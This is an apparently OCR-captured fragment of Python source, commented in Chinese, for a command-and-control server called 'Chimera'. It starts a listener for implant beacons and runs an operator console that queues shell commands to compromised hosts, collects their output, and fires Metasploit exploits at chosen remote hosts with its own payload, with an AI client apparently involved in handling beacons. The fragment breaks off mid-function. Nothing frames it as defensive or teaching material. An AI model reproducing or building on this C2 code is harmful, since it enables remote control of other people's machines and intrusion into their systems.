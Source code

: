 ```python


def start_listener(config, ai_client):
    """启动监听器以接收Beacon回连"""
    host = config.get('listener', 'host')
    port = config.getint('listener', 'port')
    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.bind((host, port))
    server.listen(10)
    print(f"[+] 奇美拉监听器已在 {host}:{port} 启动...")

    while True:
        client, addr = server.accept()
        thread = threading.Thread(target=handle_beacon_request, args=(config, ai_client, client))
        thread.daemon = True
        thread.start()

def start_operator_console(config, msf_bridge):
    """启动操作员控制台以接收手动指令"""
    # 此处省略一个完整的操作员控制台实现，简化为指令处理逻辑
    # 在真实应用中，这将是一个独立的socket监听器
    print("\n--- 奇美拉操作员控制台 ---")
    print("可用指令: list, shell <id> <cmd>, results <id>, msf <exploit> <rhosts>")
  
    while True:
        cmd_input = input("chimera> ")
        parts = cmd_input.split(" ")
        command = parts[0]

        with BEACON_LOCK:
            if command == 'list':
                for bid, bdata in BEACONS.items():
                    print(f"ID: {bid} | IP: {bdata['ip']} | Last Seen: {bdata['last_seen'].strftime('%Y-%m-%d %H:%M:%S')}")
            elif command == 'shell' and len(parts) > 2:
                bid = parts[1]
                task = {"command": "shell", "args": " ".join(parts[2:])}
                TASK_QUEUE[bid].append(task)
                print(f"任务已派发给 {bid}")
            elif command == 'results' and len(parts) > 1:
                bid = parts[1]
                for res in RESULTS.get(bid, []):
                    print(f"[{res['timestamp']}]> {res['output']}")
            elif command == 'msf' and len(parts) > 2:
                exploit = parts[1]
                rhosts = parts[2]
                res = msf_bridge.execute_exploit_with_chimera_payload(exploit, rhosts, config.get('listener', 'host'), 8888) # 假设的payload端口
                print(f"MSF响应: {res['message']}")


def main():
    config = configparser.ConfigParser()
    config.read('chimera_profile.ini')

    ai_client = ChaosHeartClient(config.get('chaos_heart', 'api_endpoint'))
    msf_bridge = MSFBridge(
        config.get('msf', 'rpc_host'), config.getint('msf', 'rpc_port'),
        config.get('msf', 'rpc_user'), config.get('msf', 'rpc_pass')
    )
  
    listener_thread = threading.Thread(target=start_listener, args=(config, ai_client))
    listener_thread.daemon = True
```